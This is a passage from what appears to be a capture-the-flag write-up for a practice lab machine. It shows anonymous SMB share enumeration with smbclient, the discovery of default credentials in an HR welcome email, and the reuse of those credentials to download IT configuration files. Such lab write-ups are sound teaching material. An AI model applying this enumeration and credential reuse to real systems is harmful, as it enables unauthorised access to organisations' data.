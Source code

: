 ```
$ smbclient -N \\\\10.10.10.178\\Data
Unable to initialize messaging context
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \IT\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Reports\*
getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Maintenance Alerts.txt (0,4 KiloBytes/sec) (average 0,4 KiloBytes/sec)
getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Welcome Email.txt (0,5 KiloBytes/sec) (average 0,5 KiloBytes/sec)
```

By reading a welcome email we can find a generic account:

```
$ cat smb/Shared/Templates/HR/Welcome\ Email.txt
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019


Thank you
HR
```

### Network Exploration: finding c.smith

**TL;DR**: listing SMB shares again

We can enumerate `Data` share again but using the `TempUser` account this time,
to list files we weren't able to see earlier:

```
$ smbclient \\\\10.10.10.178\\Data -U TempUser
Unable to initialize messaging context
Enter WORKGROUP\TempUser's password:
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
getting file \IT\Configs\Adobe\editing.xml of size 246 as editing.xml (1,9 KiloBytes/sec) (average 1,9 KiloBytes/sec)
getting file \IT\Configs\Adobe\Options.txt of size 0 as Options.txt (0,0 KiloBytes/sec) (average 1,1 KiloBytes/sec)
getting file \IT\Configs\Adobe\projects.xml of size 258 as projects.xml (0,4 KiloBytes/sec) (average 0,6 KiloBytes/sec)
getting file \IT\Configs\Adobe\settings.xml of size 1274 as settings.xml (10,0 KiloBytes/sec) (average 1,8 KiloBytes/sec)
getting file \IT\Configs\Atlas\Temp.XML of size 1369 as Temp.XML (4,1 KiloBytes/sec) (average 2,4 KiloBytes/sec)
getting file \IT\Configs\Microsoft\Options.xml of size 4598 as Options.xml (36,2 KiloBytes/sec) (average 5,3 KiloBytes/sec)
getting file \IT\Configs\NotepadPlusPlus\config.xml of size 6451 as config.xml (50,4 KiloBytes/sec) (average 8,9 KiloBytes/sec)
getting file \IT\Configs\NotepadPlusPlus\shortcuts.xml of size 2108 as shortcuts.xml (16,6 KiloBytes/sec) (average 9,5 KiloBytes/sec)
```